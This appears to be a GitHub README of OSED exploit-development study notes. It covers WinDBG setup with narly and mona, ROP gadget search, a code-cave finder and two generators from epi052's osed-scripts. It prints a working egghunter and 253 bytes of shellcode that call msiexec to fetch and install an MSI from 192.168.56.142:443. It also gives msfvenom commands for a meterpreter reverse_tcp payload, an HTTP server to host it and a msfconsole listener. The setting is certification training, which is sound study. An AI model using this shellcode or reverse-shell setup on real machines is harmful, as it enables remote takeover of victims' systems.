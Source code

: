 # OSED
## Narly
* Put narly.dll in C:\Program Files\Windows Kits\10\Debuggers\x86\winext\
![Alt text](Images/image-2.png)

## WinDBG GUI
* Load Workspace from File
![Alt text](Images/image.png)
![Alt text](Images/image-1.png)

## ROP++
* Run rp-win.exe
```
rp-win.exe --file narly.dll -r 5 --bad-bytes 00,01 > rop.txt
```
![Alt text](Images/image-3.png)

## Mona
1. Install python-2.7.17.msi
2. Install vcredist_x86.exe
3. Put pykd.pyd in C:\Program Files\Windows Kits\10\Debuggers\x86\winext\
4. Put windbglib.py in C:\Program Files\Windows Kits\10\Debuggers\x86\
5. Put mona.py in C:\Program Files\Windows Kits\10\Debuggers\x86\
6. Open cmd.exe with Administrator Privilege
```
cd "C:\Program Files\Common Files\Microsoft Shared\VC\"
regsvr32 /s msdia90.dll
```
7. Set Folder Permission

![Alt text](Images/image-5.png)
8. Start Mona
```
.load pykd.pyd
!py mona
!py mona.py rop -m *.dll -cp nonull
!py mona.py rop -m *.dll -cp -cpb '\x00\x3b'
```
![Alt text](Images/image-4.png)

## filter-ropfile.py
Can used for refrence, but the ROP-q1 and ROP-q2 are not full list
```
python3 filter-ropfile.py rop.txt                                              
```
![Alt text](Images/image-6.png)
![Alt text](Images/image-7.png)



## Code-caver.py
Can used for finding code cave (a RX location of bunch of 0s)
From noptech Github repository (https://raw.githubusercontent.com/nop-tech/code_caver/main/code_caver.py)
```
0:000> !py code_caver.py 55100000 55107000 
Code Caver
[*] Scanning for code caves in the address range 0x55100000 to 0x55107000

[!] Code cave found at address 55102d3a with a size of 704 bytes

[*] DONE
```
![alt text](Images/image-8.png)


## Egghunter.py
Can used for crafting egghunter shellcode
From epi052 Github repository (https://raw.githubusercontent.com/epi052/osed-scripts/main/egghunter.py)
```
└─$ python3 egghunter.py -t GFHKGFHK -b \x00\x09\x0A
[+] Egghunter assembly code + coresponding bytes
        or dx, 0x0fff           0x66 0x81 0xca 0xff 0x0f 
    loop_inc_one:               
        inc edx                 0x42 
    loop_check:                 
        push edx                0x52 
        xor eax, eax            0x31 0xc0 
        add ax, 0x01c6          0x66 0x05 0xc6 0x01 
        int 0x2e                0xcd 0x2e 
        cmp al, 05              0x3c 0x05 
        pop edx                 0x5a 
    loop_check_valid:           
        je loop_inc_page        0x74 0xec 
    is_egg:                     
        mov eax, 0x33643063     0xb8 0x63 0x30 0x64 0x33 
        mov edi, edx            0x89 0xd7 
        scasd                   0xaf 
        jnz loop_inc_one        0x75 0xe7 
    first_half_found:           
        scasd                   0xaf 
        jnz loop_inc_one        0x75 0xe4 
    matched_both_halves:        
        jmp edi                 0xff 0xe7 
                                
[+] egghunter created!
[=]   len: 35 bytes
[=]   tag: c0d3c0d3
[=]   ver: NtAccessCheckAndAuditAlarm

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x63\x30\x64\x33\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
                                  
```
![alt text](Images/image-9.png)


## shellcoder.py 
Used for creating MSF payload. Very useful to create small payload
From epi052 Github repository (https://raw.githubusercontent.com/epi052/osed-scripts/main/shellcoder.py)
```
python3 shellcoder.py --msi -l 192.168.56.142 -p 443 -s
   start:                               
            
       mov ebp, esp                    ;
       add esp, 0xfffff9f0             ;
   find_kernel32:                       
       xor ecx,ecx                     ;
       mov esi,fs:[ecx+30h]            ;
       mov esi,[esi+0Ch]               ;
       mov esi,[esi+1Ch]               ;
   next_module:                         
       mov ebx, [esi+8h]               ;
       mov edi, [esi+20h]              ;
       mov esi, [esi]                  ;
       cmp [edi+12*2], cx              ;
       jne next_module                 ;
   find_function_shorten:               
       jmp find_function_shorten_bnc   ;
   find_function_ret:                   
       pop esi                         ;
       mov [ebp+0x04], esi             ;
       jmp resolve_symbols_kernel32    ;
   find_function_shorten_bnc:           
       call find_function_ret          ;
   find_function:                       
       pushad                          ;
       mov eax, [ebx+0x3c]             ;
       mov edi, [ebx+eax+0x78]         ;
       add edi, ebx                    ;
       mov ecx, [edi+0x18]             ;
       mov eax, [edi+0x20]             ;
       add eax, ebx                    ;
       mov [ebp-4], eax                ;
   find_function_loop:                  
       jecxz find_function_finished    ;
       dec ecx                         ;
       mov eax, [ebp-4]                ;
       mov esi, [eax+ecx*4]            ;
       add esi, ebx                    ;
   compute_hash:                        
       xor eax, eax                    ;
       cdq                             ;
       cld                             ;
   compute_hash_again:                  
       lodsb                           ;
       test al, al                     ;
       jz compute_hash_finished        ;
       ror edx, 0x0d                   ;
       add edx, eax                    ;
       jmp compute_hash_again          ;
   compute_hash_finished:               
   find_function_compare:               
       cmp edx, [esp+0x24]             ;
       jnz find_function_loop          ;
       mov edx, [edi+0x24]             ;
       add edx, ebx                    ;
       mov cx, [edx+2*ecx]             ;
       mov edx, [edi+0x1c]             ;
       add edx, ebx                    ;
       mov eax, [edx+4*ecx]            ;
       add eax, ebx                    ;
       mov [esp+0x1c], eax             ;
   find_function_finished:              
       popad                           ;
       ret                             ;
   resolve_symbols_kernel32:            
push 0x78b5b983
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x10], eax             ;
push 0xec0e4e8e
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x14], eax             ;
   load_msvcrt:                         
       xor eax, eax                    ;
       push eax                        ;
mov ax, 0x6c6c;push eax;push dword 0x642e7472;push dword 0x6376736d;
       push esp                        ;
       call dword ptr [ebp+0x14]       ;
   resolve_symbols_msvcrt:              
       mov ebx, eax                    ;
push 0x692fada7
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x18], eax             ;
   call_system:                         
       xor eax, eax                    ;
       push eax                        ;
push dword 0x20206e71;push dword 0x2f20582f;push dword 0x3334343a;push dword 0x3234312e;push dword 0x36352e38;push dword 0x36312e32;push dword 0x39312f2f;push dword 0x3a707474;push dword 0x6820692f;push dword 0x20636578;push dword 0x6569736d;
       push esp                        ;
       call dword ptr [ebp+0x18]       ;
   exec_shellcode:                      
       xor ecx, ecx                    ;
       push ecx                        ;
       push 0xffffffff                 ;
       call dword ptr [ebp+0x10]       ;
[+] shellcode created!
[=]   len:   253 bytes
[=]   lhost: 192.168.56.142
[=]   lport: 443
[=]   break: breakpoint disabled
[=]   ver:   MSI stager
[=]   Shellcode stored in: shellcode.bin
[=]   help:
         Create msi payload:
                 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.142 LPORT=443 -f msi -o X
         Start http server (hosting the msi file):
                 sudo python -m SimpleHTTPServer 443 
         Start the metasploit listener:
                 sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.142; set LPORT 443; exploit"
         Remove bad chars with msfvenom (use --store-shellcode flag): 
                 cat shellcode.bin | msfvenom --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python -v shellcode

shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x31\xc0\x50\x66\xb8\x6c\x6c\x50\x68\x72\x74\x2e\x64\x68\x6d\x73\x76\x63\x54\xff\x55\x14\x89\xc3\x68\xa7\xad\x2f\x69\xff\x55\x04\x89\x45\x18\x31\xc0\x50\x68\x71\x6e\x20\x20\x68\x2f\x58\x20\x2f\x68\x3a\x34\x34\x33\x68\x2e\x31\x34\x32\x68\x38\x2e\x35\x36\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x54\xff\x55\x18\x31\xc9\x51\x6a\xff\xff\x55\x10"
```
![alt text](Images/image-10.png)
